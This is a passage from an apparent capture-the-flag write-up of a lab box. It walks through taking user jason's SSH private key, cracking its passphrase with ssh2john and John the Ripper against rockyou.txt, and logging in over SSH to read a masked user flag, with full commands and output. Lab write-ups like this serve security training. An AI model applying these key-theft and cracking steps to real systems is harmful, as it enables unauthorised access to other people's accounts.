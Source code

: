 We can list files using the dashboard :  
![](https://i.imgur.com/KPektX6.jpg)  

After some basic enumeration, we can find an SSH private key for user `jason` :  
![](https://i.imgur.com/7cKpgas.jpg)  

Let's read this file :  
![](https://i.imgur.com/PBx3svQ.jpg)  

Now, we copy this private key in a file on our attacking host can try to login as `jason` via SSH :  
```
attacker@AttackBox:~$ nano id_rsa
attacker@AttackBox:~$ chmod 600 id_rsa 
attacker@AttackBox:~$ ssh jason@10.10.59.32 -i id_rsa 
The authenticity of host '10.10.59.32 (10.10.59.32)' can't be established.
ECDSA key fingerprint is SHA256:LUN+looYmYUOxGSevsjjzBu0HTTK/QKY0Rs1UEdKgWk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.59.32' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```

We need a passphrase. Let's try to crack it with [john](https://www.openwall.com/john/doc/) :  
```
attacker@AttackBox:~$ ssh2john id_rsa > hash.txt
attacker@AttackBox:~$ /opt/john/run/john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
1a2b3c4d         (id_rsa)     
1g 0:00:00:00 DONE (2023-03-13 12:58) 1.587g/s 7949p/s 7949c/s 7949C/s chevy1..charm
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We have the passphrase. Now, let's try again :  
```
attacker@AttackBox:~$ ssh jason@10.10.59.32 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Last login: Fri Mar  4 18:22:12 2022 from 10.0.2.2
jason@biteme:~$
```

We are now logged in as user `jason` !

## Linux enumeration

First, let's get the user flag :  
```
jason@biteme:~$ ls
user.txt
jason@biteme:~$ cat user.txt 
THM{****************************}
```
